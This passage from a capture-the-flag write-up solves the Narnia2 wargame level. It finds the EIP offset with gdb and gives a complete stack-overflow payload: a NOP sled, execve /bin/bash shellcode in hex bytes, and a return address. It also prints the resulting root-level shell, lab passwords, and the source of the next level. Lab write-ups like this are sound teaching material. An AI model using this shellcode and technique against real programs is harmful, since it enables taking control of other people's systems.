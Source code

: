 This meant I could inject shellcode into the buffer and then execute it. To do this, I needed to overwrite the EIP register. I found the EIP register by using gdb:
```html
pwndbg> r $(python3 -c 'import sys;sys.stdout.buffer.write(b"A"*132 + b"B"*4)')
```

![Index html](/assets/images/narnia/02-1.png)

Now that I know the offset of EIP was 132, I could replace 'BBBB' with the address of my shellcode in the buffer. We will use a technique known as 'NOP sled' and replace all A's with '\x90' which is the machine code for 'no instruction'. The shellcode we will be using is the same one as the previous level (with -p flag). We will also place our shellcode at the end of our 'NOP sled' and change EIP to be somewhere in the middle of our 'NOP sled'. This is what our final payload will look like:
```bash
/narnia/narnia2 $(python3 -c 'import sys;sys.stdout.buffer.write(b"\x90"*99 + b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + b"\x70\xd5\xff\xff")')
```
Running this gives us control of the shell, and thus the password:
```html
bash-5.2$ whoami
narnia3
bash-5.2$ cat /etc/narnia_pass/narnia3
2xszzNl6uG
```

#### Narnia 04 Solution

Credentials: iqNWNk173q

We're given the following source code:
```c
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
    int i;
    char buffer[256];

    for(i = 0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));

    if(argc>1)
        strcpy(buffer,argv[1]);

    return 0;
}
```